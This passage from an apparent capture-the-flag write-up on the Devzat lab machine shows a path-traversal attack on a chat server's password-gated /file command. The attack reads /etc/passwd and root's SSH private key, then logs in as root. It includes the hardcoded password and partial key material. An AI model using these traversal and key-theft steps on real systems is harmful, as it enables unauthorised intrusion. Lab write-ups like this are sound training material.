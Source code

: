     [SYSTEM] hangman - Play hangman
    [SYSTEM] shrug - Drops a shrug emoji
    [SYSTEM] ascii-art - Bob ross with text
    [SYSTEM] example-code - Hello world!
    [SYSTEM] file - Paste a files content directly to chat [alpha]
    

If I try to run it, it needs the password:

    
    
    oxdf: /file notAFile
    [SYSTEM] You need to provide the correct password to use this function
    oxdf: /file notAFile badPass
    [SYSTEM] You did provide the wrong password
    

With the right password, it leaks the path of the running process,
`/root/devzat`:

    
    
    oxdf: /file notAFile CeilingCatStillAThingIn2021?
    [SYSTEM] The requested file @ /root/devzat/notAFile does not exist!
    

I’m able to read `/etc/passwd`:

    
    
    oxdf: /file ../../etc/passwd CeilingCatStillAThingIn2021?
    [SYSTEM] root:x:0:0:root:/root:/bin/bash
    [SYSTEM] daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
    [SYSTEM] bin:x:2:2:bin:/bin:/usr/sbin/nologin
    [SYSTEM] sys:x:3:3:sys:/dev:/usr/sbin/nologin
    [SYSTEM] sync:x:4:65534:sync:/bin:/bin/sync
    [SYSTEM] games:x:5:60:games:/usr/games:/usr/sbin/nologin
    ...[snip]...
    

I can also read an SSH key from `/root/.ssh`:

    
    
    oxdf: /file ../.ssh/id_rsa CeilingCatStillAThingIn2021?
    [SYSTEM] -----BEGIN OPENSSH PRIVATE KEY-----
    [SYSTEM] b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAAAMwAAAAtzc2gtZW
    [SYSTEM] QyNTUxOQAAACDfr/J5xYHImnVIIQqUKJs+7ENHpMO2cyDibvRZ/rbCqAAAAJiUCzUclAs1
    ...[snip]...
    [SYSTEM] Q0ekw7ZzIOJu9Fn+tsKoAAAAD3Jvb3RAZGV2emF0Lmh0YgECAwQFBg==
    [SYSTEM] -----END OPENSSH PRIVATE KEY-----
    

### SSH

With that key, I can connect over SSH:

    
    
    oxdf@hacky$ ssh -i ~/keys/devzat-root root@devzat.htb
    Welcome to Ubuntu 20.04.2 LTS (GNU/Linux 5.4.0-77-generic x86_64)
    ...[snip]...
    Last login: Sun Oct 17 15:57:45 2021 from 10.10.14.9
    root@devzat:~#
    

And grab `root.txt`:

    
    
    root@devzat:~# cat root.txt
    d7bb5cba************************
    

[](/2022/03/12/htb-devzat.html)


